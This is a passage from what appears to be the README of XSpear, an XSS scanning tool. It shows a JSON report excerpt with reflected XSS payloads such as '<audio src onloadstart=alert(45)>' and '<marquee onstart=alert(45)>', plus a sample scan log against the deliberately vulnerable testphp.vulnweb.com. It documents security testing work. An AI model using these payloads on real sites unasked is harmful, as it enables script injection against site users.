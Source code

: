 ```
....
, {
        "id": 17,
        "type": "HIGH",
        "issue": "XSS",
        "method": "GET",
        "param": "cat",
        "payload": "<audio src onloadstart=alert(45)>",
        "description": "reflected HTML5 XSS Code"
    }, {
        "id": 18,
        "type": "HIGH",
        "issue": "XSS",
        "method": "GET",
        "param": "cat",
        "payload": "<keygen autofocus onfocus=alert(45)>",
        "description": "reflected onfocus XSS Code"
 ....
    }, {
        "id": 24,
        "type": "HIGH",
        "issue": "XSS",
        "method": "GET",
        "param": "cat",
        "payload": "<marquee onstart=alert(45)>",
        "description": "triggered <marquee onstart=alert(45)>"
    }]
}
```
(Items marked as `triggered` are actually payloads that work in the browser.)

**XSpear on Burpsuite**<br>
https://github.com/hahwul/XSpear/tree/master/forBurp

etc...

### Sample log
**Scanning XSS**
```
xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=z"
    )  (
 ( /(  )\ )
 )\())(()/(          (     )  (
((_)\  /(_))`  )    ))\ ( /(  )(
__((_)(_))  /(/(   /((_))(_))(()\
\ \/ // __|((_)_\ (_)) ((_)_  ((_)
 >  < \__ \| '_ \)/ -_)/ _` || '_|
/_/\_\|___/| .__/ \___|\__,_||_|    />
           |_|                   \ /<
{\\\\\\\\\\\\\BYHAHWUL\\\\\\\\\\\(0):::<======================-
                                 / \<
                                    \>       [ v1.1.5 ]
...snip...
[*] finish scan. the report is being generated..
+----+-------+------------------+--------+-------+----------------------------------------+-----------------------------------------------+
|                                                            [ XSpear report ]                                                            |
|                              http://testphp.vulnweb.com/listproducts.php?cat=123&zfdfasdf=124fff... (snip)                              |
|                                 2019-08-14 23:50:34 +0900 ~ 2019-08-14 23:51:07 +0900 Found 24 issues.                                  |
+----+-------+------------------+--------+-------+----------------------------------------+-----------------------------------------------+
```